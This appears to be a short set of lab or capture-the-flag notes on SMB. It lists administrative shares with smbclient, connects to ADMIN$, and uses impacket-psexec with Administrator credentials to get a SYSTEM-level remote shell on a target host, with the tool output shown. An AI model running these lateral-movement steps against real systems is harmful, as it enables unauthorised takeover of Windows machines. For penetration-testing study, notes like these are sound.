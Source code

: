 # Server Message Block

## Basics

Connect to remote host's SMB service w/ Administrator account and list it's shares.

```bash
~$ smbclient -L 10.123.32.1 -U Administrator
Password for [WORKGROUP\Administrator]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

***Share names ending with $ are administrative shares***

Connect to one of the shares

```bash
~$ smbclient \\\\10.123.32.1\\ADMIN$ -U Administrator
```

Common smb commands

```bash
help         - show all commands
get flag.txt - download a file
```

## Using Impacket & the ADMIN$ share to grab a remote shell

```bash
~$ impacket-psexec Administrator@10.129.221.202
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.221.202.....
[*] Found writable share ADMIN$
[*] Uploading file mQDTUpaK.exe
[*] Opening SVCManager on 10.129.221.202.....
[*] Creating service baMI on 10.129.221.202.....
[*] Starting service baMI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
